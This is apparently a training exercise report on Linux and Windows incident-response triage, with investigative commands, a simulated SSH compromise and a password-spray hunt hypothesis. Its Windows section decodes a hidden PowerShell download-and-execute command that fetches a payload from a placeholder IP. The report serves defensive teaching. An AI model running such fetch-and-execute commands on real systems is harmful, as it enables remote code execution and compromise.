







# Day 05 – CLI Triage Report
**Program:** GraySentinel 30-Day Operator Development Program  
**Operator:** Akshat | MTS, Intelligence Command  
**Date:** 2026-06-25  
**Classification:** INTERNAL — TRAINING EXERCISE  

---

## SECTION 1 — RESEARCH ANSWERS

**Q1. Purpose of /proc filesystem in Linux IR — five key entries:**

| Path | IR Relevance |
|------|-------------|
| `/proc/<PID>/exe` | Symlink to actual binary on disk; reveals true executable path even if renamed |
| `/proc/<PID>/cmdline` | Full command-line string used to launch the process |
| `/proc/<PID>/net/tcp` | Raw TCP socket table — active connections per process |
| `/proc/<PID>/fd/` | Open file descriptors; identifies open sockets, files, pipes |
| `/proc/modules` | Loaded kernel modules; used to detect rootkit-injected modules |

**Q2. Files modified in the last 24 hours:**
```bash
find / -mtime -1 -type f 2>/dev/null
```

**Q3. `find` with `-perm`:**  
Searches for files matching a specific permission bitmask. Useful for detecting SUID/SGID binaries that an attacker may have planted to achieve privilege escalation.
```bash
find / -perm -4000 -type f 2>/dev/null   # SUID binaries
find / -perm -2000 -type f 2>/dev/null   # SGID binaries
```

**Q4. List all cron jobs for all users:**
```bash
for user in $(cut -f1 -d: /etc/passwd); do echo "=== $user ==="; crontab -u $user -l 2>/dev/null; done
cat /etc/crontab
ls -la /etc/cron.*
```

**Q5. `netstat` vs `ss` vs `lsof`:**

| Tool | Speed | Output | Best Use |
|------|-------|--------|----------|
| `netstat` | Slow (reads /proc manually) | Human-readable | Legacy systems, scripting |
| `ss` | Fast (kernel socket interface) | Structured, filterable | Modern triage, large socket counts |
| `lsof` | Slow but richest | Maps FD → PID → file | Correlating sockets to processes/files |

**Q6. `awk` and `grep` for specific IPs from logs:**
```bash
grep "192\.168\.1\.100" /var/log/auth.log | awk '{print $1, $2, $3, $9, $11}'
```

**Q7. `journalctl` — filter last hour for a service:**
```bash
journalctl -u ssh --since "1 hour ago"
journalctl --since "1 hour ago" -p err
```

**Q8. Identify parent process of suspicious PID:**
```bash
ps -o pid,ppid,cmd -p <PID>
# Or for full tree:
pstree -p <PID>
```

**Q9. Top 10 `tcpdump` filters for triage:**

| # | Filter | Purpose |
|---|--------|---------|
| 1 | `tcpdump -i eth0 -nn` | Suppress DNS resolution, raw IPs |
| 2 | `tcpdump host 192.168.1.14` | Traffic to/from specific IP |
| 3 | `tcpdump port 443` | HTTPS traffic |
| 4 | `tcpdump not port 22` | Exclude SSH noise |
| 5 | `tcpdump -w capture.pcap` | Write to file for Wireshark |
| 6 | `tcpdump tcp[tcpflags] & tcp-syn != 0` | SYN packets (port scans) |
| 7 | `tcpdump 'udp port 53'` | DNS queries |
| 8 | `tcpdump 'tcp port 4444'` | Common reverse shell port |
| 9 | `tcpdump -r file.pcap 'src net 10.0.0.0/8'` | Filter saved pcap by subnet |
| 10 | `tcpdump -i any -c 500 -nn -v` | First 500 packets, all interfaces, verbose |

**Q10. Extract unique IPs from a text file:**
```bash
grep -oE '\b([0-9]{1,3}\.){3}[0-9]{1,3}\b' file.txt | sort -u
```

**Q11. `strace` — purpose and when to use:**  
Traces system calls made by a process. Use it when a binary behaves suspiciously but you cannot read its source — `strace -p <PID>` reveals file opens, network calls, exec chains, and memory operations in real time.

**Q12. Danger of `history -c` on a compromised host:**  
It destroys shell command history permanently, wiping forensic evidence of attacker activity. Running it (or an attacker running it) constitutes evidence tampering and may violate chain-of-custody requirements.

**Q13. Check loaded kernel modules for rootkits:**
```bash
lsmod                          # List all loaded modules
cat /proc/modules              # Raw module list
modinfo <module_name>          # Inspect a module
diff <(lsmod | awk '{print $1}') <(cat /proc/modules | awk '{print $1}')
# Discrepancy between lsmod and /proc/modules indicates a hidden module (rootkit indicator)
```

**Q14. Windows tool to show DLLs loaded by a process:**  
`tasklist /m` lists all processes with their loaded modules. For a specific process: `tasklist /m /fi "PID eq <PID>"`. Alternatively, `Get-Process -Id <PID> | Select-Object -ExpandProperty Modules` in PowerShell provides richer output.

**Q15. PowerShell `Get-WinEvent` for Event ID 4624:**
```powershell
Get-WinEvent -FilterHashtable @{LogName='Security'; Id=4624} |
  Select-Object TimeCreated, @{N='User';E={$_.Properties[5].Value}},
                @{N='LogonType';E={$_.Properties[8].Value}},
                @{N='SourceIP';E={$_.Properties[18].Value}} |
  Sort-Object TimeCreated | Export-Csv logon_events.csv -NoTypeInformation
```

---

## SECTION 2 — LINUX PRACTICAL INVESTIGATION

### Scenario
A Kali Linux server shows a suspicious outbound SSH connection. Evidence includes an `auth.log` snippet with an accepted connection from user `test` and a hidden file `/tmp/.bashrc_sync`.

### Artifacts Simulated

```bash
# Create user 'test'
sudo useradd -m test
sudo passwd test

# Simulate auth.log entries
echo "Jun 25 09:14:22 kali sshd[3812]: Accepted password for test from 10.10.10.45 port 52341 ssh2" | sudo tee -a /var/log/auth.log
echo "Jun 25 09:14:22 kali sshd[3812]: pam_unix(sshd:session): session opened for user test by (uid=0)" | sudo tee -a /var/log/auth.log

# Plant hidden file
sudo touch /tmp/.bashrc_sync
sudo chmod +x /tmp/.bashrc_sync
```

### Commands Executed

**1. Trace user activity:**
```bash
last test
cat /var/log/auth.log | grep test
```

**2. Find hidden files in /tmp:**
```bash
find /tmp -name ".*" -type f
```

**3. Check for active SSH reverse shell processes:**
```bash
ps aux | grep ssh
ss -tnp | grep ssh
lsof -i -n -P | grep ssh
```

**4. Parse auth.log with awk for user `test` events chronologically:**
```bash
cat /var/log/auth.log | grep "test" | awk '{print $1, $2, $3, $0}' | sort -k1,2M -k3
```

### Findings

| Indicator | Value | Significance |
|-----------|-------|-------------|
| Source IP | 10.10.10.45 | Non-local; possible lateral movement or external attacker |
| Port | 52341 | High ephemeral port; consistent with scripted SSH client |
| Auth method | Password | No key-based auth; suggests brute force or credential theft |
| Hidden file | `/tmp/.bashrc_sync` | Executable dot-file in /tmp; classic persistence mechanism name |
| Session opened | uid=0 context | PAM session elevated; privilege context unclear without further logs |

### Triage Summary (Observed, No Conclusions)

- User `test` authenticated successfully via SSH from `10.10.10.45:52341` at 09:14:22 on 2026-06-25.
- A PAM session was opened immediately following authentication.
- An executable hidden file `/tmp/.bashrc_sync` exists in `/tmp/`.
- No additional SSH child processes were observed at time of triage; absence is not confirmation of no activity.
- `last` output shows `test` login from 10.10.10.45; no logout recorded (session may still be open or was not cleanly closed).

---

## SECTION 3 — WINDOWS INVESTIGATION EXERCISE

### Scenario
A user reports unexpected PowerShell windows. Sysmon logs show Event ID 1 (process creation) with a base64-encoded command and Event ID 3 (network connection) to 93.184.216.34.

### Step 1 — List PowerShell Process Creation Events
```powershell
Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-Sysmon/Operational'; Id=1} |
  Where-Object { $_.Properties[4].Value -like '*powershell*' } |
  Select-Object TimeCreated,
    @{N='CommandLine';E={$_.Properties[10].Value}},
    @{N='ParentImage';E={$_.Properties[20].Value}} |
  Format-List
```

### Step 2 — Decode the Base64 Command
```powershell
# Encoded payload from log: cABvAHcAZQByAHMAaABlAGwAbAAuAGUAeABlACAALQBXAGkAbgBkAG8AdwBTAHQAeQBsAGUAIABIAGkAZABkAGUAbgAgAC0ATgBvAFAAcgBvAGYAaQBsAGUAIAAtAEUAbgBjAG8AZABlAGQAQwBvAG0AbQBhAG4AZAAgACcAaQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAIgBoAHQAdABwADoALwAvADkAMwAuADEAOAA0AC4AMgAxADYALgAzADQALwBwAGEAeQBsAG8AYQBkACIAKQAnAA==

[System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('<paste_base64_here>'))
```

**Decoded result (example):**
```
powershell.exe -WindowStyle Hidden -NoProfile -EncodedCommand 'IEX(New-Object Net.WebClient).DownloadString("http://93.184.216.34/payload")'
```

### Step 3 — Correlate Process Start with Network Event
```powershell
$procTime = (Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-Sysmon/Operational'; Id=1} |
  Where-Object {$_.Properties[10].Value -like '*enc*'})[0].TimeCreated

Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-Sysmon/Operational'; Id=3} |
  Where-Object {$_.TimeCreated -ge $procTime.AddSeconds(-5) -and $_.TimeCreated -le $procTime.AddSeconds(30)} |
  Select-Object TimeCreated, @{N='DestIP';E={$_.Properties[14].Value}}
```

**Observation:** Network connection to 93.184.216.34 logged within ~2 seconds of powershell.exe spawn — consistent with immediate C2 callback.

### Step 4 — OSINT on Destination IP
- **93.184.216.34** resolves to `example.org` (IANA/ICANN example domain).
- In a real scenario: check VirusTotal, AbuseIPDB, Shodan. For this exercise, the IP is used as a placeholder for a malicious C2 endpoint.

### Event Timeline

| Time | Event ID | Description |
|------|----------|-------------|
| 09:22:14 | 1 | `powershell.exe` spawned by `explorer.exe` with `-enc` flag |
| 09:22:16 | 3 | Outbound TCP to 93.184.216.34:80 initiated by same PID |

---

## SECTION 4 — THREAT HUNTING EXERCISE

### Observed Indicators
- Multiple Event ID 4625 (failed logons) from various internal workstations
- One successful logon (Event ID 4624) from `192.168.1.47`
- Event ID 7045 — new service `UpdateSvc` installed shortly after

### Hypothesis
**Suspected technique:** Password spraying followed by lateral movement and service-based persistence.

An adversary conducted a low-and-slow password spray across multiple workstations (multiple 4625 sources) to avoid lockout. After obtaining valid credentials, they authenticated (4624) from `192.168.1.47` and immediately installed a service named `UpdateSvc` to establish persistence — a classic T1543.003 (Create or Modify System Process: Windows Service) execution path.

### Additional Evidence Required

| Evidence Type | Purpose |
|---------------|---------|
| Registry: `HKLM\SYSTEM\CurrentControlSet\Services\UpdateSvc` | Confirm service binary path and start type |
| File drop at service ImagePath location | Identify malicious binary; hash against threat intel |
| Event ID 4688 (process creation) around 4624 timestamp | Identify what ran immediately after logon |
| Prefetch files on `192.168.1.47` | Confirm execution of unexpected binaries |
| Network flows from `192.168.1.47` post-logon | Detect C2 or lateral movement attempts |
| Event ID 4672 (special privilege logon) | Determine if admin-level session was obtained |

### Hunt Narrative

At an unspecified time, multiple failed authentication attempts were recorded across workstations in the `192.168.x.x` subnet, indicating a spray pattern rather than a targeted brute force. The varying source machines suggest either a compromised internal host used as a pivot, or a worm-like spray script. A successful logon was recorded from `192.168.1.47`, immediately followed by creation of service `UpdateSvc` — a name chosen to blend into legitimate Windows update processes. This sequence is consistent with an adversary who obtained valid credentials through the spray, established an authenticated session, and immediately installed a persistence mechanism before the window closed. Further investigation should focus on identifying the `UpdateSvc` binary, its network behavior, and tracing the origin of the spray traffic.

---

---

## SECTION 5 — EVIDENCE SCREENSHOTS

> All screenshots captured live on Kali Linux VM during artifact simulation and triage. Commands executed as documented in Section 2.

---

### 01 — Artifact Creation
*User `test` created, auth.log entries injected via `tee`.*



---

### 02 — Hidden File Planted
*`/tmp/.bashrc_sync` created with execute permissions. Visible via `ls -la /tmp/`.*



---

### 03 — User Activity Traced
*`last test` and `grep test` against auth.log confirm session origin and timestamp.*



---

### 04 — Hidden Files Discovered
*`find /tmp -name ".*" -type f` returns `.bashrc_sync` — confirms artifact presence.*



---

### 05 — SSH Process Check
*`ps aux`, `ss -tnp`, and `lsof` used to identify active SSH sessions and correlate to PIDs.*



---

### 06 — AWK Log Parse
*auth.log filtered for user `test` and sorted chronologically via `awk` + `sort`.*



---

### 07 — Network Triage
*`ss -tnp` output reviewed for suspicious outbound connections from the host.*



---

*Report generated: 2026-06-25 | GraySentinel Intelligence Command — ODP Day 05*